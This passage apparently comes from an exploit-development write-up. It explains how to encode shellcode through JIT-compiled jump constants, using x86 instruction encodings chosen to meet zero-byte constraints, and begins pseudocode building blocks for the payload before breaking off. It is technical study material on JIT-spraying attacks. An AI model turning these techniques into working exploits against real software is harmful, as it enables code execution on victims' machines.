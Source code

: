 The JIT compiler will emit "short" jump instructions for offsets `< 124`, "long"
jumps for longer ranges. For now we will ignore the short jumps because they
are not needed for the main payload.

Starting with the continuation step, we have required zero-bytes as the 2 most
significant bytes. This leaves us with the following possible continuation patterns:
```
# A0 B0 interpreted as single instruction, does not work, breaks the chain:
00 00                   add byte ptr [rax], al

# A0 B0 00 interpreted as single instruction (I)
# - OR -
# A0    single instruction
# B0 00 single instruction
00 e9                   add cl, ch

# A0 B0 00 00 e9 interpreted as a single instruction (II)
A1 B1 00 00 ..
```

Looking through the instruction encodings which satisfy the given pre-conditions
we opted for the following minimal set of instructions for encoding a payload:
```
# (II)
b8 XX 00 00 e9 ..       mov eax, 0xe90000XX
35 XX 00 00 e9 ..       xor eax, 0xe90000XX
05 XX 00 00 e9 ..       add eax, 0xe90000XX
2d XX 00 00 e9 ..       sub eax, 0xe90000XX

# "nop" to encode Bi 00 allowing encoding of single byte instructions for (I)
04 00                   add al, 0x00
# (I):
54                      push rsp
55                      push rbp
50                      push rax
52                      push rdx
5d                      pop rbp
58                      pop rax
5a                      pop rdx

# (I)
89 45 00                mov [rbp], eax
88 45 00                mov [rbp], al

01 45 00                add [rbp], eax
29 45 00                sub [rbp], eax
```

With these primitives at hand, we can do basically any computation we like.
The following building blocks will be used for our shellcode:
```javascript
// basically a movzx eax, byte
func encode_byte_into_eax(byte: u8):
  // for the sake of brevity, something like this, while ignoring the constraints:
  mov eax, 0xe9000001
  xor eax, (0xe9000001 ^ byte)

func get_stack_pointer_into_rbp(offset: u8):
  push rsp

  if offset > 0:
    // get a pointer to the pointer
    push rsp
    pop rbp

    encode_byte_into_eax(offset)
```